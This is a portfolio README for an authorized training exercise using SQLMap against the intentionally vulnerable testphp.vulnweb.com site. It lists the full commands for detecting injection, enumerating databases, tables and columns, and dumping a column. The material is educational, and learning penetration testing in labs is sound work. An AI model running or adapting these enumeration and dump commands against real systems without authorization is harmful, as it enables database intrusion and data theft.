# Automated SQL Injection Enumeration with SQLMap


## Overview

An authorized SQLMap walkthrough against an intentionally vulnerable Acunetix test application, progressing from detection to database, table, column, and data enumeration.

## Objective

Use SQLMap to identify an injectable parameter and enumerate the database structure and selected data exposed by the vulnerable endpoint.

## Ethical Scope

This repository documents an exercise completed in an authorized training environment. It must not be used against systems, accounts, or people without explicit permission. All credentials, targets, and payloads referenced here are limited to disposable lab resources.

## Skills Demonstrated

- Automated SQL injection testing
- DBMS fingerprinting
- Database enumeration
- Table and column discovery
- Controlled data extraction

## Tools Used

- Kali Linux
- SQLMap
- Terminal
- Intentionally vulnerable testphp.vulnweb.com target

## Lab Environment

Authorized public demonstration target identified in the training material as intentionally vulnerable. Perform only against systems explicitly provided for testing.

## Step-by-Step Walkthrough

1. Review SQLMap help and available options.
2. Run a basic test against the supplied URL and allow SQLMap to identify the DBMS.
3. Enumerate available databases.
4. Select the acuart database and enumerate its tables.
5. Select the artists table and enumerate columns.
6. Dump the aname column as demonstrated.
7. Capture results without extending testing beyond the assigned target.

## Commands and Test Inputs

```text
sqlmap -h
```

```text
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1
```

```text
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
```

```text
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
```

```text
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists --columns
```

```text
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T artists -C aname --dump
```

## Security Concepts

- SQLMap automates detection and exploitation checks but still requires authorization and careful scope control.
- Enumeration follows a hierarchy: DBMS, databases, tables, columns, then selected records.

## Defensive Recommendations

- Use secure coding controls appropriate to the demonstrated weakness.
- Apply least privilege and strong server-side authorization.
- Log and alert on suspicious input, authentication, and data-change patterns.
- Keep testing isolated and limited to explicitly authorized targets.

## MITRE ATT&CK Mapping

MITRE ATT&CK Enterprise: T1190 - Exploit Public-Facing Application and T1087-style enumeration concepts; mapping is conceptual and limited to an authorized lab.

## Lessons Learned

- Automation does not replace understanding of the underlying SQL injection.
- Exact option syntax and target scope should be documented for reproducibility.

## Evidence















## Source Material

- `Day_4_ML_Web Security.pdf`
- Relevant source pages: 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17

## Disclaimer

This project is provided for education, defensive learning, and portfolio documentation. It does not authorize testing of third-party systems.
